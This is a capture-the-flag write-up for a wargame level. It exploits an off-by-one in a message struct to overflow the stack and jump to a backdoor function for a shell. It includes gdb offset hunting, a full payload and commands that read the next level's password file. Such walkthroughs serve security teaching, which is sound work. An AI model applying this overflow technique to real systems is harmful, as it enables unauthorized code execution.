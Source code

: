 # Level 09

## Initial Context

- One file: `level09`

## Solving the Challenge

The program will ask for a username and a message to (fake) send to @Unix-Dude.

The message is stored in a C-struct:

```c
struct msg {
    char content[140];
    char username[40];
    unsigned length;
};
```

But the `set_username` method is flawed, and will allows us to write `41 bytes` to the `username` field, allowing overwriting the first byte of the `length` field.

The `length` field is then used to know how much to copy to the `content` field.

Since the `msg` variable is stored on the stack, and the `sizeof(struct msg)` is less than `255 bytes`, we can redirect the instruction pointer via a stack overflow.

We can redirect it to the function `secret_backdoor` which will read `stdin` and pass it to a `system` call.

First we need to find the offset for `EIP`, for that we can use the following payload:

```python
# 40 bytes for the username
"A" * 40

# overwrite length with 255
+ "\xff"

# new line
+ "\n"

# buffer overflow pattern
+ "Aa0Aa1Aa2..."
```

Running it with `gdb`:

```bash
$ gdb ./level09
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
(gdb) run < <(python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"')
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) bt
#0  0x0000555555554931 in handle_msg ()
#1  0x4138674137674136 in ?? ()
#2  0x3168413068413967 in ?? ()
#3  0x6841336841326841 in ?? ()
#4  0x4136684135684134 in ?? ()
#5  0x3968413868413768 in ?? ()
#6  0x6941316941306941 in ?? ()
#7  0x0034694133694132 in ?? ()
#8  0x0000000000000000 in ?? ()
```

The offset for `0x4138674137674136` is `200`.

The address of the function `secret_backdoor` is `0x000055555555488c` (or `8c 48 55 55 55 55 00 00` in LE).

Since the offset is `200`, we have to tell the program to write `200 + 8 = 208 bytes` (to include `secret_backdoor`'s address).

Here is the new payload:

```python
# 40 bytes for the username
"A" * 40

# overwrite length with 208
+ "\xd0"

# new line
+ "\n"

# 200 bytes of padding
+ "A" * 200

# secret_backdoor's address
+ "\x8c\x48\x55\x55\x55\x55\x00\x00"

# new line
+ "\n"

# command to execute via fgets in secret_backdoor
+ "/bin/sh"'
```

We can write the payload to a file and send it to the vulnerable program:

```bash
$ python -c 'print "A" * 40 + "\xd0" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/exploit09
$ cat /tmp/exploit09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
<flag>
```

## The End

```bash
$ su end
Password:
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```